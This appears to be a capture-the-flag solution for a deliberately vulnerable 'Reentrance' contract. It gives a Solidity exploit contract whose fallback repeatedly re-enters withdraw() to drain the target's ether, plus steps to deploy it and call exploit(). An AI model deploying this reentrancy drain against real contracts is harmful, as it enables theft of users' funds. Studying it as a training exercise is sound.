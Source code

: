 Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.8;

interface Reentrance {
    function donate(address) external payable;
    function withdraw(uint) external payable;
}

contract Exploit {

    function exploit(address _who) public payable {
        Reentrance(_who).donate{value:msg.value}(address(this));
        Reentrance(_who).withdraw(msg.value);
    }

    receive() external payable {
        if (msg.value <= msg.sender.balance){
            Reentrance(msg.sender).withdraw(msg.value);
        }
    }
}
```
call exploit(), sending 0.001 ether (1 finney)
